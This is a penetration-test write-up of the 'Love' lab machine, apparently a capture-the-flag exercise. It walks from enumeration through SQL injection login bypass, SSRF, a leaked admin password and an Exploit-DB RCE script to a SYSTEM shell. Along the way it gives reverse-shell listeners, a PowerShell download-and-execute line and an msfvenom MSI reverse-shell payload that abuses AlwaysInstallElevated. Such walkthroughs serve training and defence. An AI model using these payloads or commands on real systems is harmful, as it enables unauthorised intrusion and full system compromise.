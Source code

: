 # Penetration Test Write-Up: "Love" Machine

## Overview

"Love" is a Windows machine with a voting system that has a serious security flaw. The system exposes multiple services, including a vulnerable file scanner that can be exploited through SSRF (Server-Side Request Forgery). Using this vulnerability, we gain access to internal services and extract credentials for the voting system. After logging in, we exploit a remote code execution bug to gain a foothold on the system as the user "phoebe." Further privilege escalation allows us to bypass AppLocker and execute commands with SYSTEM privileges.

---

## Enumeration

### Nmap Scan
We started with an Nmap scan to identify open ports and services:

```
nmap -sC -sV -oA nmap/love 10.10.10.239 -Pn
```

![alt text](Snapshots/Love-image.png)

![alt text](Snapshots/Love-image2.png)


**Open Ports:**
- **80**: HTTP 
- **443**: HTTPS (leaking staging.love.htb)
- **5000**: HTTP service
- **445**: SMB service also detected
- **3306**: MySQL

We added the site names in our hosts file
```
echo "10.10.10.239 love.htb staging.love.htb" | sudo tee -a /etc/hosts
```

### HTTP Service (Port 80)
The web server on port 80 displayed a login page for the voting system. We attempted a few common login credentials and noted that an incorrect password prompt appeared for valid usernames, confirming that an admin account exists.

![alt text](Snapshots/Love-image3.png)

### HTTPS Service (Port 443)
Accessing https://staging.love.htb, and we got a File Scanner page. But we have no credentials to access it.

![alt text](Snapshots/Love-image4.png)


### Port 5000
Attempting to access port 5000 directly was blocked.

![alt text](Snapshots/Love-image5.png)

### Other ports
The SMB service did not allow anonymous login. We switched to running a **Gobuster** scan to find hidden directories.

```
gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Gobuster identified several directories, some of them are defaults but these two might be useful as we progress with our exploits.:
- `/images`
- `/admin`

![alt text](Snapshots/Love-image6.png)

---

## Exploitation

### SQL Injection
We tested for SQL injection on the login page. Using the exploit from [Exploit-DB](https://www.exploit-db.com/exploits/49843), we successfully bypassed authentication:

```
Username: dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -
Password: admin
```
![alt text](Snapshots/Love-image7.png)

### File Upload Vulnerability
After logging in, we navigated to the "Create Voter" page, which allowed file uploads. We uploaded various file types and found that the server saved them to the `/images` directory.

![alt text](Snapshots/Love-image8.png)

We tried to upload a php reverse shell but it failed to execute as something is blocking it from the server side.

![alt text](Snapshots/Love-image-9.png)

### SSRF Exploitation
Switching tactics, we ran another Gobuster scan on staging.love.htb and discovered `beta.php`. By leveraging SSRF, we accessed internal services by querying localhost URLs directly:

![alt text](Snapshots/Love-image-10.png)

![alt text](Snapshots/Love-image-11.png)

![alt text](Snapshots/Love-image-12.png)

- http://localhost:5000 revealed an internal password manager with leaked credentials:
```
  admin:@LoveIsInTheAir!!!!
```
---

### RCE on Voting System
Using the leaked credentials, we logged into the voting system and found an RCE exploit in Exploit-DB ([49445.py](https://www.exploit-db.com/exploits/49445)). After modifying the script to point to the correct URLs, we executed it:

![alt text](Snapshots/Love-image-13.png)

The exploit works but these URLs are needed to be updated. I've also added my listening IP and PORT, and the admin credentials as well.

![alt text](Snapshots/Love-image-14.png)

I setup a netcat listener
```
nc -lnvp 9001
```

Then run the exploit
```
python3 ./49445.py
```

We established a reverse shell and got the user flag.

![alt text](Snapshots/Love-image-15.png)


---

## Privilege Escalation

### PowerUp Script
I uploaded and run the PowerUp script to identify privilege escalation vectors:

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.11:8000/PowerUp.ps1')
```

The scan revealed that the **AlwaysInstallElevated** registry key was set to 1. The **AlwaysInstallElevated registry** key is a known privilege escalation vector in Windows systems. When this key is set to 1, it allows MSI files to be installed with elevated privileges by non-administrator users. This is a major security risk because attackers can abuse it to execute arbitrary MSI packages with SYSTEM privileges.
![alt text](Snapshots/Love-image-16.png)


### Crafting an MSI Payload
We used **msfvenom** to create a malicious MSI payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f msi > shell.msi
```

### Upload and Execution
We uploaded the payload to `C:\programdata` using **curl**:

The C:\ProgramData directory is commonly accessible for "Everyone" because it's used by Windows to store shared application data that needs to be accessible by multiple users, regardless of their privilege level. I've also checked the directory's permission and Users are allowed to execute.

```
Get-Acl . | Format-List
```
![alt text](Snapshots/Love-image-17.png)

As this directory is confirmed that we can run our privilege escalation exploit, we download the .msi file from our local machine.
```
curl http://10.10.14.11:8000/shell.msi -o shell.msi
```

Then, we set up a listener:

```
rlwrap nc -lnvp 4444
```

Finally, we executed the MSI file with elevated privileges:

```
msiexec /quiet /qn /i shell.msi
```

Upon execution, we gained a shell with SYSTEM privileges.

![alt text](Snapshots/Love-image-18.png)

---

## Conclusion
The "Love" machine showcased several critical vulnerabilities:
1. SQL Injection on the voting system login page.
2. SSRF vulnerability that exposed internal services.
3. Misconfigured AlwaysInstallElevated registry key, allowing privilege escalation.

By systematically exploiting these weaknesses, we achieved full control of the system as a SYSTEM user.

